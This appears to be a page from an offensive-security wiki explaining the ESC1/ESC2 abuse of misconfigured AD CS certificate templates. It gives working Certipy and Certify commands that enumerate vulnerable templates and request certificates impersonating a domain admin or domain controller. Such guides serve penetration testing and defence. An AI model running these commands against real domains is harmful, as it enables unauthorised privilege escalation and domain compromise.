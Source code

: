 When a certificate template allows to specify a `subjectAltName`, it is possible to request a certificate for another user. It can be used for privileges escalation if the EKU specifies `Client Authentication` or `ANY`.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC1 and ESC2 scenarios.&#x20;

Once a vulnerable template is found ([how to enumerate](broken-reference)), a request shall be made to obtain a certificate.

```bash
#To specify a user account in the SAN
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -upn 'domain admin'

#To specify a computer account in the SAN
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -dns 'dc.domain.local'
```

{% hint style="warning" %}
The `$ADCS_HOST` target must be a FQDN (not an IP).
{% endhint %}

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```batch
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find /vulnerable

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /vulnerable /currentuser
```

Once a vulnerable template is found, a request shall be made to obtain a certificate, with another high-priv user set as SAN (`subjectAltName`).

```batch
Certify.exe request /ca:'domain\ca' /template:"Vulnerable template" /altname:"admin"
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.
{% endtab %}
{% endtabs %}
